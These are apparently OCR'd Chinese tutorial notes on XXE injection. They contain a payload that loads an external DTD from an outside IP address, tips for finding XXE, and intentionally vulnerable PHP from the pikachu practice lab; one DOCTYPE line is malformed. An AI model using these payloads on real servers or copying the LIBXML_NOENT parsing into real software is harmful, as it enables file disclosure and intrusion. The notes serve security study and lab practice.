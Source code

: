 ### 外部参数实体

```xml
<!DOCTYPE note> [
    <!ENTITY % d SYSTEM "http://47.106.143.26/xml.dtd">
    %d;
]>
<note>&d1</note>
<!-- Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA== -->
```

http://47.106.143.26/xml.dtd

```xml
<!-- http://47.106.143.26/xml.dtd -->
<!ENTITY d1 SYSTEM "data://text/plain;base64,Y2w0eV9uZWVkX2FfZ3JpbGZyaWVuZA==">
```

# XML外部实体注入

XML外部实体注入就是"攻击者通过向服务器注入指定的 xml 实体内容,从而让服务器按照指定的配置进行执行,导致问题"
也就是说服务端接收和解析了来自用户端的 xm l数据,而又没有做严格的安全控制,从而导致 xml 外部实体注入

一般来说请求头里  `X-Requested-With: XMLHttpRequest`   `Content-Type:application/xml`

## 思路点

-**XXE黑盒发现**：

1、获取得到Content-Type或数据类型为xml时，尝试进行xml语言payload进行测试

2、不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe

3、XXE不仅在数据传输上可能存在漏洞，同样在文件上传引用插件解析或预览也会造成文件中的XXE Payload被执行

-**XXE白盒发现**：

1、可通过应用功能追踪代码定位审计

2、可通过脚本特定函数搜索定位审计

3、可通过伪协议玩法绕过相关修复等

## pikachu靶场尝鲜

漏洞代码分析，有回显

```php
<?php
if(isset($_POST['submit']) and $_POST['xml'] != null){
$xml =$_POST['xml'];
// $xml = $test;
$data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
if($data){
$html.="<pre>{$data}</pre>";
}else{
$html.="<p>XML 声明、DTD 文档类型定义、文档元素这些都搞懂了吗?</p>";
}
}
?>
```
